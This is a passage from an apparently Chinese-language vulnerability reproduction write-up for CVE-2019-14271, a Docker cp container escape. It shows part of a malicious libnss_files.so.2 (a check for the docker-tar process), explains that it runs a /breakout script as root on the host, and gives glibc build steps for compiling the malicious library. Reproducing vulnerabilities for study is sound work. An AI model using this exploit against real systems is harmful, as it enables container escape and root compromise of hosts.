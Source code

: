 ```

     return;
}

bool is_priviliged() {
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL) {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
}
```

恶意`libnss_files.so.2`文件被加载时，首先会判断当前加载进程是否为`docker-tar`进程，如果是，则以当前进程的身份执行/breakout脚本。由于docker-tar并未做其他命名空间级别上的隔离，因此/breakout会以docker-tar自身的root权限在宿主机命名空间内执行。

下面编译生成恶意链接文件

```
cd /root/gnu/glibc-build
mkdir config1
../glibc-2.31/configure --prefix=/root/gnu/glibc-build/config1/
make
//生成的恶意动态链接库文件为/glibc-build/nss/libnss_files.so；要注意的是libnss_files.so.2为链接文件，别弄错了
```

这里我们执行失败了

```
../glibc-2.31/configure --prefix=/root/gnu/glibc-build/config1/
```

![](/CVE-2019-14271漏洞复现/CVE-2019-14271-4.jpg)

是因为缺少了依赖，所以报错
